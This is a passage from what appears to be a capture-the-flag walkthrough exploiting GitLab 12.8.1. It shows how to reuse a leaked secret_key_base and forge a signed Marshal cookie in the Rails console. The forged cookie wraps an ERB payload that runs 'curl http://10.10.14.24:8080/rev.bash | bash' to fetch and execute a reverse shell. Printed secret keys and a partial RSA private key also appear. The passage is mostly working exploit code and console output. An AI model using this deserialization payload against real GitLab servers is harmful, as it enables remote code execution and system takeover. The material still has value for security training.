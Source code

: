 ```shell
```

Step 3 : Replacing `secret_key_base` in our own GitLab instance :

Next we need to replace the value of `secret_key_base` inside `/opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml`
with the one we got:

`secret_key_base: 3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3`

```yml
root@55c5745c3e56:/# cat /opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml
# This file is managed by gitlab-ctl. Manual changes will be
# erased! To change the contents below, edit /etc/gitlab/gitlab.rb
# and run `sudo gitlab-ctl reconfigure`.

---
production:
  db_key_base: 1d72fbc9d369dca31357808e440be37d793ae1f1dd526cec9bd9cac74567c3eadbb34e8cfa61aa443e3b5f374afb3a5c12f279bc2fd6e30cf675962e0805afa5
  secret_key_base: 3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3
  otp_key_base: 49aa7a32e98f1781455387cc636958cf8e270dd9f3caf1e7381b0d0327d255b3ab4ce9e052e2fe428fa91661a5e9a222365710bc007ef5e4bcf92cdc78639981
  openid_connect_signing_key: |
    -----BEGIN RSA PRIVATE KEY-----
    MIIJKQIBAAKCAgEA5IsR3b8jGt7wTpQh98HqX09hpyLO+SXRwsa0eLGUL8KnY/5b
    KgQSQ1WW3re6g5Q534duvUltf0O3Yhk9Daq6J8bRTJX+tbOZKdGw00Qbyt9zjCf5
[..SNIP..]
```

Step 4 : Generating Payload

Next we need to run the following command in `rails console` :

```ruby
request = ActionDispatch::Request.new(Rails.application.env_config)
request.env["action_dispatch.cookies_serializer"] = :marshal
cookies = request.cookie_jar
erb = ERB.new("<%= `curl http://10.10.14.24:8080/rev.bash | bash` %>")
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
cookies.signed[:cookie] = depr
puts cookies[:cookie]
```

```shell
root@55c5745c3e56:/# gitlab-rails console
--------------------------------------------------------------------------------
 GitLab:       12.8.1 (d18b43a5f5a) FOSS
 GitLab Shell: 11.0.0
 PostgreSQL:   10.12
--------------------------------------------------------------------------------
Loading production environment (Rails 6.0.2)
irb(main):001:0> request = ActionDispatch::Request.new(Rails.application.env_config)
=> #<ActionDispatch::Request:0x00007ff69e3917b8 @env={"action_dispatch.parameter_filter"=>[/token$/, /password/, /secret/, /key$/, /^body$/, /^description$/, /^note$/, /^text$/, /^title$/, :certificate, :encrypted_key, :hook, :import_url, :otp_attempt, :sentry_dsn, :trace, :variables, :content, :sharedSecret, /^((?-mix:client_secret|code|authentication_token|access_token|refresh_token))$/], "action_dispatch.redirect_filter"=>[], "action_dispatch.secret_key_base"=>"3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3", "action_dispatch.show_exceptions"=>true, "action_dispatch.show_detailed_exceptions"=>false,
[..SNIP..]

irb(main):002:0> request.env["action_dispatch.cookies_serializer"] = :marshal
=> :marshal

```